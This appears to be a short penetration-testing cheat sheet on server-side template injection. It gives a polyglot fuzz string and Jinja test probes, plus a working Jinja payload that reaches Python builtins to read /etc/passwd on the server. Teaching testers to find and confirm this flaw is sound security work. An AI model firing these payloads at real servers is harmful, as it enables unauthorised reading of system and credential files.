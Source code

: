 ```yaml
---
description: >-
  Server-side template injection is when an attacker is able to use native
  template syntax to inject a malicious payload into a template, which is then
  executed server-side.
---
```


# SSTI (Server Side Template Injection)

## SSTI basics

### Identify the vulnerability

Polyglot is commonly used in template expressions fuzzing. If an error occurs it might be vulnerable and also can be to identify the template engine in use.

```python
${{<%[%'"}}%\.
```

The following cheat sheet can be used to identify the template engine in use:

<figure><img src="../.gitbook/assets/ssti-cheat-sheet-detection.png" alt=""><figcaption><p>cheat sheet to determine the vulnerability</p></figcaption></figure>

## Python: Jinja

### Jinja: Basic injection

```django
{{7*7}}
{{7*'7'}}
{{4*4}}[[5*5]]
```

### Jinja: Read file

```django
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

## References

* [https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)
* [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
